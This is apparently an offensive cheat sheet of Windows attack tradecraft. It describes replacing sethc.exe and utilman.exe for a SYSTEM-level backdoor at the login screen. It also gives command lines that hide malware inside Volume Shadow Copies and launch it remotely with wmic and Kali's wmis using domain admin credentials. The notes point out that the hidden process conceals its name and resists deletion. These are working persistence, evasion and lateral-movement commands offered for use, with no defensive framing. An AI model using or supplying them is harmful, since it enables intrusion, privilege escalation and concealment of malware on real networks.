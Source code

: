 #### SETHC/UTILMAN Replacement

Replace these binaries, may require a reboot to take effect
```
	%WINDIR%\System32\sethc.exe
	%WINDIR%\System32\utilman.exe
```

Hit shift 5 times = sethc.exe run by SYSTEM
Windows key + U = utilman.exe run by SYSTEM


#### Volume Shadow Copy (Restore Points)

Windows service that's constantly running - takes snapshots of system directories

Drop Malware -> Create VSC (ReadOnly) -> Delete Malware -> Use WMIC to run VSC of malware

Registry Key to Disable Volume Shadow Copy
```
	HKLM\System\CurrentControlSet\Control\BackupRestore\FilesNotToSnapshot
```

#### VSSADMIN - native windows utility
	
vssadmin create command only applies to Server OS (Win2k3,2008)  
```
	vssadmin list shadows  
	vssadmin create shadow /for=C:  
	wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c vssadmin create shadow /for=C  
	mklink /D C:\VscAccess \\?\GLOBALROOT\Device\HardDiskVolumeShadowCopy1  
	copy \\?\GLOBALROOT\Device\HardDiskVolumeShadowCopy4\path\to\some\file e:\files  
```

#### Use WMIC process call to run an .exe from a Volume Shadow Copy
```
	wmic process call create \\.\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\evil.exe
```

This process will not show the imagename (executable filename) or commandline parameters in the task list.
The file cannot be individually deleted from the shadow copy once created. The entire shadow copy must be deleted to remove it.  
```
	root@kali:~# wmis -U DOMAIN\domainadminsvc%domainadminsvc123 //ServerName \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\evil.exe  
	NTSTATUS: NT_STATUS_OK - Success
```

In Kali Linux you could use the WMIS package to do the same thing:
```
	wmis -U DOMAIN\domainadminsvc%domainadminsvc123 //ServerName \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\evil.exe  
	NTSTATUS: NT_STATUS_OK - Success
```
